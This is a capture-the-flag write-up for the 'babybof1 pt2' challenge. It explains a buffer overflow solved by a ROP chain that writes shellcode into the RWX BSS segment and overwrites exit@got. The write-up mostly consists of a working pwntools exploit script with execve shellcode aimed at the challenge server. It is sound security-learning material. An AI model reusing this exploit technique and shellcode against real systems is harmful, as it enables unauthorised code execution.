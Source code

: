 # babybof1 pt2 (444pts) #

![TASK](https://imgur.com/R5bo1k7.png)

It was a simple bufferoverflow where we are asked to pop a shell , first of all i tried ret2libc but idk why it didn't worked on the remote server,
so i decided to use ret2shellcode ( NX is disabled ) but we don't have a stack address ? i created firstly a ROP chain to write my shellcode in the BSS since it's RWX and then i overwrote the GOT entry of exit@got
with the address of my shellcode and finally i called exit => shellcode executed => Shell \o/ 

here is my final exploit:

```python
from pwn import *
p=remote("chals20.cybercastors.com",14425)
#p=process("./babybof")
p.recvuntil("name:")
#pause()
RET=p64(0x0000000000400566)
PUTS=p64(0x0000000000400590)
MAIN=p64(0x000000000040074d)
POP_RDI=p64(0x00000000004007f3)
GETS=p64(0x00000000004005d0)
payload=cyclic(264)
payload+=POP_RDI
payload+=p64(0x601070)
payload+=GETS
payload+=POP_RDI
payload+=p64(0x601050)
payload+=GETS
payload+=MAIN
p.sendline(payload)
shellcode="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
p.sendline(shellcode)
p.sendline(p64(0x601070))
p.recvuntil("name:")
payload=cyclic(264)
payload+=RET
payload+=p64(0x00000000004005f0)
p.sendline(payload)
p.interactive()

```

If you have any questions you can DM on twitter @belkahlaahmed1 or visit my website for more interesting content and blogs https://ahmed-belkahla.me
